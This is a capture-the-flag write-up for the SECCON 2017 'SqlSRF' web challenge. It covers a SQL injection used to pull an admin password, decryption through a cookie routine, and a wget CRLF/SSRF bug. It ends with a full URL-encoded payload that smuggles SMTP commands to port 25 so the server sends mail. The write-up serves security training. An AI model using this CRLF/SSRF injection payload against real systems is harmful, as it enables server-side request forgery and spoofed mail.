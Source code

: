 ## SqlSRF Web 400

Desc 

```
The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root. http://sqlsrf.pwn.seccon.jp/sqlsrf/
```

At first, we can get source file from [index.cgi_backup20171129](http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi_backup20171129).

And Here is a clear SQL injection, so we can use this injection get admin's password by this [code](https://github.com/LyleMi/CTF/blob/master/2017/seccon/sqlsrf/index.py).

But we need decrypt it, notice index.cgi will decrypt remember.

```pl
$user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
```

Then we can know password is ``Yes!Kusomon!!``.

At last, here is a wget ssrf [bug](https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html) which found by orange.

Finally, we can construct a payload like below: 
```
127.0.0.1%0d%0aHELO 127.0.0.1%0aMAIL FROM%3a%3cyoumail%40gmail.com%3e%0aRCPT TO%3a%3croot%3e%0aDATA%0aFrom%3a youmail%40gmail.com%0aTo%3a root%0aSubject%3a give me flag%0d%0a.%0d%0a%0aQUIT%0a:25
```

